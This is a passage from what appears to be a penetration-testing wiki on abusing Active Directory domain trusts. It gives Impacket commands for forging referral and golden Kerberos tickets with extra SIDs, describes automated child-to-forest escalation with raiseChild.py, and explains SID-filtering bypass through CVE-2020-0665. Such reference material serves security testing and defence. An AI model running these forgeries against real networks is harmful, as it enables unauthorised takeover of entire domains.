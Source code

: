<pre class="language-bash" data-title="Referral ticket" data-overflow="wrap"><code class="lang-bash"><strong># 1. forge the ticket
</strong>ticketer.py -nthash "inter-realm key" -domain-sid "child_domain_SID" -domain "child_domain_FQDN" -extra-sid "&#x3C;root_domain_SID>-&#x3C;RID>" -spn "krbtgt/root_domain_fqdn" "someusername"
 
# 2. use it to request a service ticket
KRB5CCNAME="someusername.ccache" getST.py -k -no-pass -debug -spn "CIFS/domain_controller" "root_domain_fqdn/someusername@root_domain_fqdn"
</code></pre>

{% code title="Golden ticket" overflow="wrap" %}
```bash
ticketer.py -nthash "child_domain_krbtgt_NT_hash" -domain-sid "child_domain_SID" -domain "child_domain_FQDN" -extra-sid "<root_domain_SID>-<RID>" "someusername"
```
{% endcode %}

Impacket's [raiseChild.py](https://github.com/fortra/impacket/blob/master/examples/raiseChild.py) script can also be used to conduct the golden ticket technique automatically **when SID filtering is disabled** (retrieving the SIDs, dumping the trusted domain's krbtgt, forging the ticket, dumping the forest root keys, etc.). It will forge a ticket with the Enterprise Admins extra SID.

```bash
raiseChild.py "child_domain"/"child_domain_admin":"$PASSWORD"
```
{% endtab %}

{% tab title="Windows" %}
// TODO
{% endtab %}
{% endtabs %}

### SID filtering bypass

> a few SIDs will (almost) never be filtered: "Enterprise Domain Controllers" (S-1-5-9) SID and those described by the [trusted domain object (TDO)](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-pac/f2ef15b6-1e9b-48b5-bf0b-019f061d41c8#gt\_f2ceef4e-999b-4276-84cd-2e2829de5fc4), as well as seven well-known SIDs (see [MS-PAC doc](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280), and [improsec's blogpost](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-3-sid-filtering-explained#yui\_3\_17\_2\_1\_1673614140169\_543)).
>
> _(_[_SID filtering_](trusts.md#sid-filtering) _theory)_

_//_ [_https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research_](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research)

#### CVE-2020-0665

The idea behind [CVE-2020-0665](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-0665) is to bypass SID filtering to authenticate as a server in the trusting forest targeting the local admin on this server (RID = 500). To do so, the local domain SID of the server is spoofed to "fake" a child domain in the trusted forest, which will be added to the list of trusted SIDs in the trusting forest domain's TDO ([Trusted Domain Object](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-adts/b645c125-a7da-4097-84a1-2fa7cea07714#gt\_f2ceef4e-999b-4276-84cd-2e2829de5fc4)) after 24 hours (see [SID filtering](trusts.md#sid-filtering)). An inter-realm/referral ticket will then be forged using the spoofed SID as extended SID which will be used to request a service ticket to that server (see [Forging tickets](trusts.md#forging-tickets)).
